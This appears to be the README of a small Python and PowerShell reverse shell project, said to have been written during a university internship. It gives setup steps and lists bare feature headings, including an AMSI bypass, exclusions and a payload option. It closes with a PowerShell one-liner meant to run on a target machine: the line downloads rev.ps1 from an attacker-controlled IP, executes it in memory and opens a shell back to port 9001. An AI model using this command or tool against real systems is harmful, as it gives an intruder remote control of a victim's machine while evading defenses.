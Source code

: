 # Introduction

A small reverse shell project that i build during my university intership.

It is written with Python and Powershell. To simply install it:

1.  Clone this repo
2.  ```
    pip install -r requirements.txt
    ```
3.  ```
    chmod +x powerrevshell.py or python3 powerrevshell.py
    ```
## Powerrevshell

Powerrevshell.py comes with several function accesibbile via the "menu" option.

### get - put
The 
### smb-get
### down-file
### load
### amsi-bypass
### exclude
### payload
### socks-start
### socks-stop
### socks
### close


## Rev.ps1

Rev.ps1 is the powershell script to connect back to us.
To start the reverse shell run the following code on the target machine.

```
(New-Object System.Net.WebClient).DownloadString('http://<IP>/rev.ps1') IEX; Send-Shell -i <IP> -p 9001
```
